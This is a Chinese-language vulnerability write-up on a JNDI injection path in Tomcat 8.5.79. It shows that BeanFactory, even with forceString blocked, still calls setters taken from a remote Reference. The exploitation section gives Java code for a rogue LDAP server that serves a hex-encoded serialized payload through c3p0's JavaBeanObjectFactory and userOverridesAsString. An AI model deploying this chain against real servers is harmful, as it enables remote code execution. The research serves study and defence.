## org.apache.naming.factory.BeanFactory trigger setter

### 流程分析

在高版本Tomcat中，对于之前的使用`forceString`的任意方法调用的利用方式被修复了，这里同样存在有setter方法的触发方式

以下以Tomcat 8.5.79为例：



若远程Reference中包含有`forceString`属性则抛出异常

我们接着往下走`BeanFactory#getObjectInstance`



遍历Reference中的所有值，若Reference中包含的值在bean class中存在有对应的属性值，这里将会调用`pda[i].getWriteMethod()`获取setter方法

最后会反射调用该setter方法



这里就能够触发任意的getter方法

### 利用方式

寻找到一个可利用的getter方法进行利用，这里我们选用前面`com.mchange.v2.naming.JavaBeanObjectFactory#getObjectInstance`的getter触发payload

```
@Override
    public void sendResult(InMemoryInterceptedSearchResult result, String baseDN) {
        argsHandler(baseDN);
        generateHandler();

        System.out.println(this.getClass().getName() + "sendResult start.....");

        byte[] payloadBytes = new byte[0];
        try {
            payloadBytes = Files.readAllBytes(new File("./payload.ser").toPath());
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        char[] hex = Hex.encodeHex(payloadBytes);
        String jndiPayload = "HexAsciiSerializedMap?" + new String(hex) + "?";

        ResourceRef resourceRef = new ResourceRef("com.mchange.v2.c3p0.WrapperConnectionPoolDataSource", null, "", "", true,
                "com.mchange.v2.naming.JavaBeanObjectFactory", null);
        resourceRef.add(new StringRefAddr("userOverridesAsString", jndiPayload));

        Entry entry = new Entry(baseDN);
        entry.addAttribute("javaClassName", "java.lang.Class");
        entry.addAttribute("javaSerializedData", GadgetUtils.serialize(resourceRef));
        try {
            result.sendSearchEntry(entry);
        } catch (LDAPException e) {
            throw new RuntimeException(e);
        }
        result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
    }

```



## 参考

<https://nlrvana.github.io/c3p0反序列化漏洞/>

<https://forum.butian.net/share/3857>
